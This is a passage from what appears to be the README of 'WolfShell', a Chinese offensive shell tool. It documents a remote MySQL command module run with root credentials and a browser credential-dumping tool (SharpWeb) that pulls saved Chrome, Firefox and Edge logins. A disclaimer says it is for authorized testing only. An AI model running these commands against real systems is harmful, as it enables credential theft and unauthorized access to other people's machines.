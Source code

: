 ![Hacking](http://www.18k.icu/img/wolfshell/sshcmd.png)

### Mysql数据库连接示例

```bash
mysqlcmd host port user pass dbname sqlstr
mysqlcmd host port user pass dbname sqlb64

Demo:
mysqlcmd 192.168.50.139 3306 root WolfShell mysql info
mysqlcmd 192.168.50.139 3306 root WolfShell mysql ""SELECT VERSION(); ""
mysqlcmd 192.168.50.139 3306 root WolfShell mysql ""SELECT 3+5 ""
mysqlcmd 192.168.50.139 3306 root WolfShell mysql c2VsZWN0IDMrNQ==";
```

![Hacking](http://www.18k.icu/img/wolfshell/mysqlcmd.png)

### 读取浏览器密码示例

*   SharpWeb：浏览器凭据抓取工具，支持提取已保存的 Chrome、Firefox、Edge 登录信息与凭据。

```bash
Usage:
    SharWeb arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chrome, FireFox and IE/Edge credentials.
    full      - The same as 'all'
    chrome    - Fetch saved Chrome logins. e.g. -d Directory
    firefox   - Fetch saved FireFox logins. e.g. -p masterkey -d Directory
    edge      - Fetch saved Internet Explorer/Microsoft Edge logins.

Demo:
    SharWeb all
    SharWeb chrome
    SharWeb chrome -d C:\Output
    SharWeb firefox -p mymasterkey -d C:\Output
    SharWeb edge
=======================================================================
```

![Hacking](http://www.18k.icu/img/wolfshell/SharpWeb.png)

## 免责声明

- 使用WolfShell时，请遵循相关法律法规，确保在授权的环境中进行测试和使用。
- 本工具仅供教育和研究目的，任何滥用行为将由用户自行承担后果。

## 贡献

欢迎任何形式的贡献！请提交问题、建议或拉取请求。
